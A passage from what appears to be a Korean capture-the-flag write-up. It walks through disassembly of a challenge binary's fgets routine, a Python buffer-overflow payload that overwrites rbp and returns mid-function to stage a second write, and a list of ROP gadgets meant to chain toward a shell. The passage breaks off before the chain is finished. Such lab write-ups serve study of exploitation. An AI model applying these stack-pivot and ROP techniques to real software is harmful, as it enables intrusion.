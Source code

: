 대신 `fgets`로 입력을 받는 과정에서 `rdi`의 값이 `rax`, `rbp`를 통해 설정된다는 것을 이용해서 값을 전달할 수 있었다.
```
.text:0000000000401192                 push    rbp
.text:0000000000401193                 mov     rbp, rsp
.text:0000000000401196                 sub     rsp, 60h
.text:000000000040119A                 mov     rdx, cs:stdin   ; stream
.text:00000000004011A1                 lea     rax, [rbp-60h]
.text:00000000004011A5                 mov     esi, 74h ; 't'  ; n
.text:00000000004011AA                 mov     rdi, rax        ; s
.text:00000000004011AD                 call    _fgets
.text:00000000004011B2                 xor     rdx, rdx
.text:00000000004011B5                 nop
.text:00000000004011B6                 leave
.text:00000000004011B7                 retn
```
따라서 payload를 다음과 같이 작성하였다.
``` python
    # fgets(0x4047a0, 0x74, stdin)
    payload = b"A" * 0x60
    payload += p64(0x404800)                # rbp = 0x404800
    payload += p64(0x401196)                # middle of fgets
    payload += b"\x00\x00\x00"              # dummy
    
    s.send(payload)
    sleep(0.5)
```

### Return Oriented Programming
이제 payload를 이용해서 쉘을 띄우면 되는데, `pop` 가젯이 많지 않았는데, IDA로 확인해보니 쓸만한 가젯은 삭제하고 다음 네 가젯을 이용한 문제 해결을 의도한 것 같았다.
```
# mov rdi, rsi gadget
.text:0000000000401156                 push    rbp
.text:0000000000401157                 mov     rbp, rsp
.text:000000000040115A                 mov     rdi, rsi
.text:000000000040115D                 retn

# pop rbp gadget
.text:000000000040115F                 pop     rbp
.text:0000000000401160                 retn

# pop rsi gadget
.text:0000000000401161                 push    rbp
.text:0000000000401162                 mov     rbp, rsp
.text:0000000000401165                 pop     rsi
.text:0000000000401166                 retn

# read(0, buf, 8) gadget
.text:000000000040116A                 push    rbp
.text:000000000040116B                 mov     rbp, rsp
.text:000000000040116E                 sub     rsp, 10h
.text:0000000000401172                 lea     rax, [rbp-8h]
.text:0000000000401176                 mov     edx, 8          ; nbytes
.text:000000000040117B                 mov     rsi, rax        ; buf
.text:000000000040117E                 mov     edi, 0          ; fd
.text:0000000000401183                 call    _read
.text:0000000000401188                 xor     rdx, rdx
.text:000000000040118B                 xor     rax, rax
.text:000000000040118E                 retn
```
특이하게 `read` 가젯이 있었는데, `fgets`와 비슷하게 `rbp` 값에서 `8`을 뺀 값이 `rax`를 통해 `rsi`로 전달된다.
